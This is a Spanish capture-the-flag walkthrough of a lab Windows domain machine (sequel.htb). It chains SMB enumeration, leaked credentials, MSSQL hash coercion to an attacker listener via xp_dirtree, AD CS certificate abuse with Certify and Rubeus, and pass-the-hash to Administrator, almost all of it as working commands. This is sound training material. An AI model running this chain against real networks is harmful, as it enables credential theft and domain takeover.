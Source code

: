 Hacemos el escaneo con nmap:
![[Pasted image 20240603104629.png]]
Encontramos el nombre de dominio sequel.htb:
![[Pasted image 20240603104713.png]]
Miramos a ver si hay algún recurso compartido accesible:
```bash
smbmap -H 10.10.11.202 -u 'null' -p ''
```
![[Pasted image 20240603104842.png]]
Dentro del recurso compartido public, nos encontramos con un documento .pdf, por lo que nos lo descargamos:
```bash
smbmap -H 10.10.11.202 -u 'null' -p '' --download Public/"SQL Server Procedures.pdf"
```
![[Pasted image 20240603104935.png]]
Y dentro del documento vemos unas credenciales:
```bash
PublicUser:GuestUserCantWrite1
```
![[Pasted image 20240603105027.png]]
En el puerto 1433 vimos que está corriendo una base de datos SQL Server, por lo que nos conectamos con impacket-mssqlclient:
```bash
impacket-mssqlclient publicuser:GuestUserCantWrite1@10.10.11.202
```
![[Pasted image 20240603105241.png]]
Una vez dentro de esta base de datos, podemos conectarnos a nuestro equipo atacante escuchando con el responder, para así recibir el hash NTLMv2 del usuario:
```python
responder -I tun0
```
![[Pasted image 20240603105926.png]]
Este comando listará el contenido del recurso compartido 10.10.16.4/share incluyendo archivos y directorios. 1 significa que solo se listará el contenido del directorio especificado:
```bash
EXEC xp_dirtree '\\10.10.16.4\share', 1, 1
```
![[Pasted image 20240603105943.png]]
Y abremos recibido el hash:
![[Pasted image 20240603105956.png]]
Este hash lo vamos a copiar dentro de un archivo llamado hash y lo vamos a crackear:
```bash
sql_svc:REGGIE1234ronnie
```
![[Pasted image 20240603110159.png]]
Iniciamos sesión con evil-winrm ya que el puerto 5985 de winrm estaba abierto:
```bash
evil-winrm -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie
```
![[Pasted image 20240603110443.png]]
Una vez dentro, vamos a mirar los logs de inicio de sesión de la base de datos, los cuales se encuentran en esta ruta:
```bash
C:\SQLServer\Logs
```
![[Pasted image 20240603110719.png]]
Y al final del todo, vemos unos intentos de inicio de sesión fallidos, donde parece ser que el usuario Ryan ha puesto la contraseña en el campo del usuario por error:
```bash
Ryan.Cooper:NuclearMosquito3
```
![[Pasted image 20240603110828.png]]
Por lo que entramos con estas credenciales por winrm:
```bash
evil-winrm -i 10.10.11.202 -u ryan.cooper -p NuclearMosquito3
```
![[Pasted image 20240603110928.png]]
Para la escalada de privilegios, utilizaremos certify, donde podemos identificar plantillas de certificados y políticas que puedan ser explotadas.

AD CS es una tecnología de Microsoft que permite emitir certificados digitales para proteger comunicaciones y datos en una red. Sin embargo, si no está configurado correctamente, puede ser explotado para obtener acceso no autorizado.

Por lo que lo subimos la herramienta para explotar esto:
```bash
https://github.com/GhostPack/Certify
```
![[Pasted image 20240603111130.png]]
El ejecutable nos lo bajamos desde aquí:
```bash
https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.7_Any
```
![[Pasted image 20240603111422.png]]
Una vez que lo tengamos lo subimos a la máquina víctima:
```bash
upload Certify.exe
```
![[Pasted image 20240603111543.png]]
Y una vez subido, vamos a enumerar el usuario actual:
```bash
.\Certify.exe find /vulnerable /currentuser
```
![[Pasted image 20240603111634.png]]
Y se nos indica de un certificado vulnerable. El template UserAuthentication es vulnerable ya que permite derechos de enrollment a todos los usuarios del dominio.
![[Pasted image 20240603111901.png]]
En la propia página de github se nos da unas instrucciones de qué comando ejecutar:
![[Pasted image 20240603112051.png]]
Por lo que solicitamos el certificado como Administrador al certificado llamado UserAuthentication:
```bash
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```
![[Pasted image 20240603112125.png]]
Todas estas claves vamos a guardarlas en un archivo llamado cert.pem:
![[Pasted image 20240603112358.png]]
Y convertimos este archivo:
```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
![[Pasted image 20240603112421.png]]
Ahora, para conseguir el hash NTLM del administrador usando el cert.pfx, tenemos que subirlo y ejecutarlo con rubeus, el cual podremos descargarlo desde el siguiente enlace:
```bash
https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.0_Any/Rubeus.exe
```
Lo subimos a la máquina víctima:
```bash
upload Rubeus.exe
upload cert.pfx
```
![[Pasted image 20240603112758.png]]
Con rubeus vamos a ejecutar el siguiente comando para obtener generar un TGT y así obtener el hash del usuario administrador:
```bash
.\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials
```
![[Pasted image 20240603113211.png]]
Y vemos el hash NTLM del usuario administrador:
```bash
A52F78E4C751E5F5E17E1E9F3E58F4EE
```
![[Pasted image 20240603113245.png]]
Y con este comando podemos iniciar sesión con el usuario administrador explotando un pass the hash:
```bash
evil-winrm -i 10.10.11.202 -u Administrator -H "A52F78E4C751E5F5E17E1E9F3E58F4EE"
```
![[Pasted image 20240603113351.png]]
